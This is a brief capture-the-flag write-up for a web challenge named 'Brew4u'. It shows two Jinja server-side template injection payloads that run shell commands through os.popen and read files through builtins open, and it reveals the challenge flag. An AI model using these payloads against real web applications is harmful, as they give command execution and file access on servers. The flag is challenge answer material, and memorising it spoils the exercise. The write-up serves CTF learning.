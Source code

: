 # Brew4u
![image](https://github.com/user-attachments/assets/235a5b0a-c874-4917-9bbc-cb546fdfc2ed)

# Solution
I don't have the image of this website either but it has an injection point in which you can inject SSTI and if you read below it's related to Jinja so this is a Jinja SSTI exploit. 
The commands I used were:
{{url_for.__globals__.os.__dict__.popen('ls').read()}} to find what is the name of the flag file then {{url_for.__globals__.__builtins__.open('flag_filename').read()}} to read the flag file which is HnH{j1njA2_t3mpl4t3_1nj3cT}.
